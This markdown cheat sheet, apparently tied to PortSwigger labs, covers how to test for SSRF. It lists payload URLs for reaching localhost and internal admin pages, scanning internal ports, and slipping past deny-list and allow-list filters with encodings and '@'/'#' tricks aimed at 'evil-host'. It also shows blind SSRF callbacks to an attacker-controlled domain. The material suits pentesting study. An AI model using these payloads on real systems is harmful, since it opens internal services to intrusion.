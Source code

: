 # Server-side Request Forgery (SSRF)

## Summary

* [Recon for SSRF](#recon)

* [Portswigger Labs Cheat Sheet / Payloads](#cheat-sheet)


## Recon

### Identify SSRF

* Identify any request parameters that appear to contain hostnames, IP addresses or full/partial URLs

* Modify each parameter’s value to specify another resource, similar to the one requested, and see if it appears in the response

* Try to specify a URL resource that you control out on the internet and monitor it for any connections.  If no connections are received monitor the time taken for the application to respond, if there is a delay it could be a time-out connection due to network restrictions


## Cheat Sheet

**If we find an interesting parameter that contains hostnames, IP addresses or full URLs, the following payloads can help to identify SSRF:**


### Access Control Bypass


* Use a localhost or valid internal IP address, through a SSRF vector, to potentially bypass access controls implemented on sensitive resources on the application that only allow access to admin users or through a specific IP address/network-interface:

```
http://localhost/admin
```
```
http://192.168.0.5:8080/admin
```


### Resource Enumeration


* Change the parameter value to another resource and analyze how the application responds.  We can probe for port numbers, internal IP addresses, different hostnames, and analyze the application’s responses.  

* Ideally, we should know how the application responds to a valid vs invalid specified resources, so we can easily determine when an injected value is valid:


```
http://192.168.0.1:22
```
```
http://192.168.0.1:8080
```


### Bypasses for disallow-list filter

* If the application is blocking requests for http://127.0.0.1 and /admin resources, we can try the following bypass techniques:

#### Other representations for 127.0.0.1:

```
http://127.1
```

#### URL Encoding:

```
%68%74%74%70%3a%2f%2f%31%32%37%2e%31
```


#### Obfuscation/Case Variation:

```
http://127.0.0.1/AdMiN
```



### Bypasses for allow-list filter

* If the application is only checking that a specific host is somewhere within the parameter, we can bypass this restriction with the following payloads:

#### Embed credentials @ in a URL before hostname:

```
https://expected-host@evil-host
```

#### \# character specifies a URL fragment:  

```
https://evil-host#expected-host
```


#### Complex method to bypass allow list restrictions (try to encode/double-encode the \#/@ characters too):

```
https://evil-host#evil-host@expected-host/evil-path
```
```
https://expected-host@evil-host/evil-path#
```


### Blind SSRF

* If the application does not return any notable differences in the responses from our SSRF payloads, then we can use Blind SSRF techniques:

* Inject a payload that will trigger an HTTP connection to a domain that you control and monitor for any network traffic.

* Inject this payload in all susceptible parameters and headers (Referer):
    * Example:  Referer: https://burp-collab.net



### SSRF via Open Redirection

* https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection